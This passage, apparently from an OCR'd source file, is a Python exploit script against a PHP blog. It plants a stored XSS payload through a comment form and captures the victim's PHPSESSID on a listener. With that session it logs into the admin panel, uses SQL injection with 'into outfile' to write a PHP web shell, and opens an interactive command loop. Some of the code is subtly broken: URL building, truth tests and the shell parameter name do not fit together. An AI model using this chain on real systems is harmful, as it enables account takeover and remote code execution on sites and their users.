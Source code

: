 ```python
        s.listen(1)
        conn, addr = s.accept()
        with conn:
            m = conn.recv(2048)
            print("[+] Capturing cookies...")
            out = re.findall("PHPSESSID\%3D.*HTTP", m.decode("utf-8"))
            out = out[0].replace("PHPSESSID%3D", "").replace("HTTP", "")
            return out.replace("\n", "").replace("\t", "")

def send(xss, port):
    url = target + "post_comment.php?id=1"
    data = {"title": "Hello world!", "author": "Lazar", "text": xss, "submit": "Submit"}
    out = r.post(url, data=data)
    if out.status_code == 200:
        print("[+] Payload sent successfully!")
        print("[*] Waiting for victim...")
        cookie = listen(port)
        login(cookie)

def login(cookie):
    url = target + "admin/index.php"
    cookie = "PHPSESSID={}".format(cookie)
    head = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "close",
        "Cookie": cookie,
    }

    a = r.get(url, headers=head)
    if a.text.find("Administration of my Blog"):
        print("[+] Login Successful")
        upload(r, head)
    else:
        print("[-] Login Failed")
        sys.exit()
def upload(r, head):
    url = (
        target
        + 'admin/edit.php?id=-1%20union%20select%20"<?php","system($_GET[%27cmd%27]);","?>",";"%20into%20outfile%20"/var/www/css/shell.php"%23'
    )
    r.get(url, headers=head)
    shell_url = url + "css/shell.php"
    test = r.get(shell_url, headers=head)
    if test.text.find("Notice: Undefined index:"):
        print("[+] Shell uploaded")
        interact(r, head)
    else:
        print("[-] Shell upload failed")
        sys.exit()

def interact(r, head):
    shell_url = target + "css/shell.php"
    while True:
        cmd = input("$ ")
        if cmd == "exit":
            url = shell_url + "?c=rm shell.php"
            r.get(url)
            sys.exit()
        else:
```